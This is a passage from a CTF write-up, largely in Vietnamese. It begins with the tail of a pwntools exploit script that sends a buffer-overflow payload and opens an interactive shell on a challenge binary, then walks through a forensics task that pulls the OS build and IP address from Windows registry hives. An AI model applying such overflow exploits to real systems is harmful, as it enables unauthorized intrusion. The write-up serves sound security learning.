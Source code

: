 ```python!
        pause()
    else:
        print("Default...")
        p = process(exe.path)
    return p

p = conn()

def main():
    # good luck pwning :)
    
    payload = b'AB' * (0x18c >> 1) + b'\xa6' * 0x11
    sa(b': \n', payload)

    sl(b'exit')

    p.interactive()

if __name__ == "__main__":
    main()
```
 
# Forensics

## Silent Visitor
Đề cho một file `test.ad1` và chúng ta sẽ cần tìm kiếm thông tin để trả lời câu hỏi trên server. Ở bài này sẽ cần dùng FTK Imager cho định dạng file ad1. Bài này sẽ là về phân tích malware được viết bằng `golang`.

### 1. What is the SHA256 hash of the disk image provided?
Answer: `122b2b4bf1433341ba6e8fefd707379a98e6e9ca376340379ea42edb31a5dba2`

### 2. Identify the OS build number of the victim’s system?
Tìm trên google, chúng ta sẽ biết được `OS build number` có thể tìm được trong `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion`. Như vậy, chúng ta sẽ cần extract file registry `Windows\System32\config\SOFTWARE` để lấy thông tin.
Sử dụng [Registry Explorer](https://ericzimmerman.github.io/#!index.md) để parse thông tin, chúng ta sẽ thấy được `OS build number`.
![image](https://hackmd.io/_uploads/r1SggLbTgg.png)

Answer: `19045`

### 3. What is the ip of the victim's machine?
Tương tự khi tìm trên google sẽ biết được ip của máy sẽ nằm trong `HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Tcpip\Parameters\Interfaces`. Như vậy sẽ cần extract registry `Windows\System32\config\SYSTEM`.
Parse thông tin từ registry `SYSTEM` theo path trên sẽ thấy được ip của máy nạn nhân.
![image](https://hackmd.io/_uploads/rkcLbUWpxe.png)
